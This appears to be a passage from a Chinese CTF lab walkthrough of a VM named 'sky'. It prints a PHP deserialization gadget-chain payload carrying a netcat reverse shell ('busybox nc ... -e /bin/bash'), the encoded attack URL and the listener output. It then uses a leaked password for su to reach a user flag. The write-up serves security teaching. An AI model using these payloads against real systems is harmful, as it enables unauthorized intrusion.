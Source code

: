 去web看了一下，返回了good，那弹shell

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x/tmp]
└─$ python3 b.py
输入命令: busybox nc 192.168.205.128 8888 -e /bin/bash
[*] 序列化字符串:
O:11:"UserSession":1:{s:6:"logger";O:12:"CacheManager":1:{s:9:"cacheFile";O:11:"FileHandler":2:{s:7:"process";O:14:"SystemExecutor":0:{}s:8:"filename";s:44:"busybox nc 192.168.205.128 8888 -e /bin/bash";}}}

[*] 攻击URL:
http://192.168.205.230/ok.php?data=O%3A11%3A%22UserSession%22%3A1%3A%7Bs%3A6%3A%22logger%22%3BO%3A12%3A%22CacheManager%22%3A1%3A%7Bs%3A9%3A%22cacheFile%22%3BO%3A11%3A%22FileHandler%22%3A2%3A%7Bs%3A7%3A%22process%22%3BO%3A14%3A%22SystemExecutor%22%3A0%3A%7B%7Ds%3A8%3A%22filename%22%3Bs%3A44%3A%22busybox%20nc%20192.168.205.128%208888%20-e%20/bin/bash%22%3B%7D%7D%7D
```

在本地使用 `netcat` 开启监听，然后访问构造好的 URL，成功接收到 `www-data` 用户的反弹 shell。

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 8888           
listening on [any] 8888 ...
connect to [192.168.205.128] from (UNKNOWN) [192.168.205.230] 55154
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# 三、权限提升

## 1. 从 `www-data` 到 `sky`

在 `www-data` 用户的 shell 中，于网站根目录 `/var/www/html` 下发现一个名为 `ll1045670921.php` 的可疑文件。查看其内容，获得了一个密钥/密码：`bf4e842c9fea1b77`。

```bash
www-data@sky:/var/www/html$ cat ll1045670921.php
<?php
...
// 看来你找到了通往天空的密钥：bf4e842c9fea1b77
?>
```

通过 `ls /home` 发现存在用户 `sky`。使用该密钥作为密码，成功切换到 `sky` 用户，并读取到第一个 flag。

```bash
www-data@sky:/var/www/html$ su sky
Password: <在此输入密钥>
sky@sky:/var/www/html$ cd
sky@sky:~$ cat user.txt
# 恭喜你，找到了第一个国王秘宝
flag{user-TheNineHeavensBlackMagicScroll}
```

